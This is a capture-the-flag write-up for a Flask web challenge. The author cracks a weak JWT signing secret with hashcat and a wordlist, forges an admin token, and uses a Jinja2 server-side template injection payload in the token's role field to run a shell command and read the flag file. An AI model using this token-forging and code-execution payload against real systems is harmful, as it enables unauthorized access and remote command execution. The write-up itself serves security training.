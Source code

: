 # Drink From My Flask

![](2023-05-14-12-34-57.png)

We are given a website without source code that seemingly has very little functionality.

Looking at my cookies, I find a JWT with the following data:

```
{"typ":"JWT","alg":"HS256"}{"role":"guest"}
```

The `alg` field indicates that it is encrypted using a secret key. I can crack the secret key using hashcat:

```
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJyb2xlIjoiZ3Vlc3QifQ.AdxhLneoWOkeXGQFwWUbDzS3J2W6_Re-NbZLP_SRUww:key

Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 16500 (JWT (JSON Web Token))
Hash.Target......: eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJyb2xlIjoiZ3..._SRUww
Time.Started.....: Fri May 12 20:08:53 2023 (1 sec)
Time.Estimated...: Fri May 12 20:08:54 2023 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:   599.6 kH/s (2.67ms) @ Accel:512 Loops:1 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests
Progress.........: 897024/14344385 (6.25%)
Rejected.........: 0/897024 (0.00%)
Restore.Point....: 894976/14344385 (6.24%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#1....: kimhoe -> ketepasa
Hardware.Mon.#1..: Util: 73%
```

to find out that that the key is simply `key`. Using this I create a jwt with the username admin and set it as my cookie.

Upon accessing a random page on the website, I am told that only two pages exist, `/` and `/adminPage`.

Visint adminpage, I see this:

![](2023-05-14-12-38-04.png)

There was seemingly zero functionality on this webpage. I decided to try a few things and changed my username to `{{7*7}}`. I was greeted with a message that `49` is not an admin. This indicates that the server is vulnerable to SSTI through the `role` attribute of our JWT.

Using the following simple SSTI payload: I was able to get the flag:

```
{
    "role": "{{ get_flashed_messages.__globals__.__builtins__.__import__('os').popen('cat flag.txt').read() }}"
}
```

Flag: `Hero{sst1_fl4v0ur3d_c0Ok1e}`
